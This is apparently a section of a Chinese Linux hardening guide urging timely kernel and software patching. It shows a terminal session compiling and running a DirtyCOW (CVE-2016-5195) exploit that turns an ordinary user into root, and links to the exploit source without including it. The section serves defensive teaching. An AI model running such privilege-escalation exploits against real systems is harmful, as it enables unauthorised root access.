



## 升级安全补丁
及时更新操作系统内核和软件版本，解决已披露的安全漏洞，降低系统被攻击的风险。

### 安全漏洞利用示例

<br>
DirtyCOW 内核提权漏洞(CVE-2016-5195)
<br>
普通用户利用该漏洞提权到root用户:
```
fjl@SLES11-3:~> gcc -lpthread cve_2016_5195_exp.c -o cve_2016_5195_exp
fjl@SLES11-3:~>
fjl@SLES11-3:~> id
uid=1000(fjl) gid=100(users) groups=100(users),16(dialout),33(video)
fjl@SLES11-3:~> whoami
fjl
fjl@SLES11-3:~> 
fjl@SLES11-3:~> ./cve_2016_5195_exp
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 81856
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
SLES11-3:/home/fjl # id
uid=0(root) gid=100(users) groups=0(root),16(dialout),33(video),100(users)
SLES11-3:/home/fjl # whoami
root
SLES11-3:/home/fjl #
```

<br>
EXP源码: [cve_2016_5195_exp.c](cve_2016_5195_exp.c)
### 如何实施
* 定期进行安全扫描(Nessus等)，解决安全扫描漏洞;
* 订阅操作系统厂商公告，关注安全补丁发布情况，及时升级安全补丁;
* 关注安全漏洞披露平台，如[CVE](http://www.cvedetails.com/index.php)、[NVD](https://nvd.nist.gov/vuln/full-listing)、[expolit-db](https://www.exploit-db.com/browse/)、[SecurityFocus](http://www.securityfocus.com/vulnerabilities)，跟踪并及时解决安全漏洞。
